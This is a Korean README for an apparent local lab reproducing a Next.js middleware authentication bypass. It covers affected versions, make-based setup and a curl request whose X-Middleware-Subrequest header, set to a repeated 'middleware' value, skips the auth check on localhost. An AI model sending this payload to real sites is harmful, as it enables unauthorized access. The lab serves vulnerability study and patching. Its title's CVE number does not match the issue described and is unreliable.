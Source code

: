 # CVE-2017-7529

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

### 요약

아래 Nextjs 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다.

- \> 11.1.4 < 12.3.5
- \> 14.0 <14.2.25
- \> 15.0 <15.2.3
- \>= 13.0.0, < 13.5.9

<br/>

### 환경 구성 및 실행

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

### 결과

#### 정상적인 요청

```sh
curl -v http://localhost:8001/
```

![normal](./assets/normal.png)

#### 취약한 요청

```sh
curl -v http://localhost:8001/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![normal](./assets/vuln.png)

수신된 html 요청의 전문은 `./assets/bypassed.html`에서 확인 가능합니다.

<br/>

### 정리

Nextjs 특정 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다. 15.2.2에서는 `X-Middleware-Subrequest`에 `middleware:middleware:middleware:middleware:middleware`로 요청 시에 middleware의 인증검사가 우회됩니다. 따라서 최신 버전의 Nextjs로 업데이트해야합니다.
